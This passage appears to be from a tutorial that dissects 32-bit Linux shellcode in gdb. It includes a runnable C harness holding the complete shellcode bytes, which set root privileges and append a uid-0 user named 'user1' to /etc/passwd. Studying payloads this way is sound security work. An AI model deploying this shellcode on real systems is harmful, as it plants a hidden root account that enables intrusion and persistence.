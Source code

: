 ``` assembly
00000055  CD80              int 0x80
00000057  6A01              push byte +0x1
00000059  58                pop eax
0000005A  CD80              int 0x80
```
We'll directly jump into gdb to analyze the shellcode and registers in more detail. So we add our shellcode to the C program, compile and start with gdb.
``` c
#include<stdio.h>
#include<string.h>

unsigned char code[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x23\x00\x00\x00\x75\x73"
"\x65\x72\x31\x3a\x41\x7a\x53\x7a\x42\x32\x75\x79\x38\x4a\x46"
"\x6c\x6b\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f"
"\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58"
"\xcd\x80";

void main()
{


        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```
We can now set a breakpoint when our code is executed:

### setruid
``` assembly
0x0804c040 <+0>:	xor    ecx,ecx
0x0804c042 <+2>:	mov    ebx,ecx
0x0804c044 <+4>:	push   0x46
0x0804c046 <+6>:	pop    eax
0x0804c047 <+7>:	int    0x80
```
We can see here that first ecx, and ebx is set to zero. Then 0x46 is pushed and poped in eax and then syscall is executed. We can look up what 0x46 in eax means in the [manual](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit) and we find out it's the setreuid call. This is been used to set the real and effective user id in that case to 0.

``` c
int setreuid(uid_t ruid, uid_t euid)
```
